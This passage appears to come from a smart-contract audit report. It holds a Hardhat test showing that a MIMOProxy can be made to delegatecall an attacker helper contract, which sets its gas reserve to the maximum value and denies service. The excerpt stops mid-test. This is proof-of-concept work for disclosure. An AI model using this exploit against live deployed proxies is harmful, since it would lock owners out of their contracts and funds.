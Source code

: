 Then deploy the `ProxyAttacks` helper in a test environment and use `MIMOProxy` to `delegatecall` into it:

```typescript
import chai, { expect } from 'chai';
import { solidity } from 'ethereum-waffle';
import { deployments, ethers } from 'hardhat';

import { MIMOProxy, MIMOProxyFactory, MIMOProxyRegistry, ProxyAttacks } from '../../typechain';

chai.use(solidity);

const setup = deployments.createFixture(async () => {
  const { deploy } = deployments;
  const [owner, attacker] = await ethers.getSigners();

  await deploy("MIMOProxy", {
    from: owner.address,
    args: [],
  });
  const mimoProxyBase: MIMOProxy = await ethers.getContract("MIMOProxy");

  await deploy("MIMOProxyFactory", {
    from: owner.address,
    args: [mimoProxyBase.address],
  });
  const mimoProxyFactory: MIMOProxyFactory = await ethers.getContract("MIMOProxyFactory");

  await deploy("MIMOProxyRegistry", {
    from: owner.address,
    args: [mimoProxyFactory.address],
  });
  const mimoProxyRegistry: MIMOProxyRegistry = await ethers.getContract("MIMOProxyRegistry");

  await deploy("ProxyAttacks", {
    from: owner.address,
    args: [],
  });
  const proxyAttacks: ProxyAttacks = await ethers.getContract("ProxyAttacks");

  return {
    owner,
    attacker,
    mimoProxyBase,
    mimoProxyFactory,
    mimoProxyRegistry,
    proxyAttacks,
  };
});

describe("Proxy attack tests", () => {
  it("DoS by manipulating gas reserve", async () => {
    const { owner, mimoProxyRegistry, proxyAttacks } = await setup();
    await mimoProxyRegistry.deploy();
    const currentProxy = await mimoProxyRegistry.getCurrentProxy(owner.address);

    const proxy = await ethers.getContractAt("MIMOProxy", currentProxy);

    // Call setGasReserve on ProxyAttacks contract
    await proxy.execute(proxyAttacks.address, "0x5f9981ae");

    // Proxy's minGasReserve is now type(uint256).max
    expect(await proxy.minGasReserve()).to.equal(ethers.constants.MaxUint256);

```